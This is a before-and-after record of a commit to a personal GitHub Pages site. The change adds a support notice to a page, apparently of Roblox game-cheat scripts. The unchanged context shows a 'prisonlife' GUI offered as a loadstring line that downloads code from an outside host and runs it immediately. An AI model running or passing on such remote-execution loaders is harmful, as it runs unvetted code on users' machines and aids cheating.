

Before and after one commit to bobuncle12/bobuncle12.github.io, a plain HTML site: page scripts.html in a window 1280 px wide. Shown: the part 381-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update scripts.html

```diff
--- a/scripts.html
+++ b/scripts.html
@@ -38,6 +38,7 @@
 		</div>
 	</section>
 	<div class="script">
+		<p>If any script does not seem to to be working, please contact me, information on how to do that is in the support section</p>
 		<label class="highlighted"><b>gui for prisonlife</b></label>
 		<input type="text" name="a" value='loadstring(game:HttpGet("https://lucy-executor.tk/raw/PrisonHax.txt", true))()' readonly class="script" size="80">
 		<br><br>
```
